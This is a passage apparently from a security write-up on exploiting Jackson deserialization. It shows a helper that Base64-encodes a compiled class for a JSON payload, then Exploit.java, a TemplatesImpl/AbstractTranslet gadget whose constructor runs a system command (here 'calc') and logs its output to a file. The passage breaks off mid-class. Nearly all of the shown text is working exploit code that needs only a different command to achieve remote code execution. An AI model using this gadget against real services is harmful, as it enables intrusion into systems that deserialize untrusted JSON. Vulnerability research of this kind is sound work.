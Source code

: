```plain
        return json.replace("'","\"");
    }

    public static String readClassStr(String cls){
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        try {
            FileCopyUtils.copy(new FileInputStream(new File(cls)),byteArrayOutputStream);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encode(byteArrayOutputStream.toByteArray());
    }
}
```

[![](assets/1701606625-3815e7237f2d53dfbde1f1604035d256.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114144235-feeb6958-82b8-1.png)

Exploit.java

```plain
package jackson;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.*;

public class Exploit extends AbstractTranslet {
    public Exploit() throws Exception {

        try {
            BufferedReader br = null;

            Process p = Runtime.getRuntime().exec("calc");
            br = new BufferedReader(new InputStreamReader(p.getInputStream()));

            String line = null;
            StringBuilder sb = new StringBuilder();
            while ((line = br.readLine()) != null) {
                sb.append(line + "\n");
                System.out.println(sb);
            }
            File file = new File("result.txt");

            if(!file.exists()){
                file.createNewFile();
            }


            FileWriter fileWritter = new FileWriter(file.getName(),true);
            BufferedWriter bufferWritter = new BufferedWriter(fileWritter);
            bufferWritter.write(sb.toString());
            bufferWritter.close();
            System.out.println(sb);
        } catch (IOException e) {
            e.printStackTrace();

        }
    }
    @Override
```
